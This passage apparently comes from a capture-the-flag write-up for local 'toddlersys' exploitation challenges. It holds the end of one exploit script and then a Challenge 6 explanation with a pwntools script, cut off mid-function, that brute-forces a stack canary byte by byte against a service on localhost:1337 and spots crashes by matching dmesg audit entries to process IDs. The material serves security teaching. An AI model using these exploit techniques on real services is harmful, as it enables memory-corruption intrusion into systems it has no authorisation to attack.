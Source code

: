 ```python
    trampoline *= int(MAX_YANCODE_SIZE / 8)
    load_program(r1, trampoline_program, trampoline)
    quit(r1)

    p.interactive()


if __name__ == '__main__':
    main()
```

## Challenge 6

Similar to before, but now there's a canary. We can just brute-force it - byte after byte. Notice that due to the `read(0, buf, 0x1000)` call, we have to halt between dispatching inputs towards the remote process. \
Usually we can detect crash criteria due to canary corruption by having `***stack smasing detected***` banner being emitted to `stderr`. However, notice that under the hood, `__stack_chk_fail` actually calls `writev`. Because of the seccomp filter, this results with `Bad Syscall` prompt. We can inspect a generated `dmesg` entry, that describes the crash reason, along with its `pid`. If its `pid` matches the connection we've just launched, we know for sure that stack corruption have occured.

```python
def leak_canary(pad_size, debug=False):
    crash_program = 15
    current = b'A' * pad_size

    # Initialization step, we must create 1 false entry
    with remote('localhost', 1337) as r:
        buf = current + b'A' * 8
        load_program(r, crash_program, buf)
        time.sleep(0.1)
        r.sendline(b'quit')

    canary = b''
    while True:
        for b in range(256):
            log.info(f'canary: {canary} b: {b}')
            with remote('localhost', 1337) as r:
                candidate = current + b.to_bytes(1, 'little')
                load_program(r, crash_program, candidate)
                time.sleep(0.1)
                with process('pgrep -f challenge | tail -n 2', shell=True) as pgrep:
                    r_pid = pgrep.readline()[:-1]
                    r_pid = int(r_pid, 10)
                r.sendline(b'quit')

                time.sleep(0.2)
                with process('dmesg | grep /challenge/toddlersys_level | grep audit | tail -n 1', shell=True) as dmesg:
                    dmesg.recvuntil(b'pid=')
                    crashed_pid = int(dmesg.recvuntil(b' ')[:-1], 10)
                    
                if crashed_pid == r_pid:
                    continue
                
                # Double check
                with process('dmesg | grep /challenge/toddlersys_level | grep audit | tail -n 1', shell=True) as dmesg:
                    dmesg.recvuntil(b'pid=')
                    crashed_pid = int(dmesg.recvuntil(b' ')[:-1], 10)
                
                if crashed_pid != r_pid:
```

[linux-kernel-labs-vma]: https://linux-kernel-labs.github.io/refs/pull/222/merge/labs/memory_mapping.html
[litux-vma]: https://litux.nl/mirror/kerneldevelopment/0672327201/ch14lev1sec2.html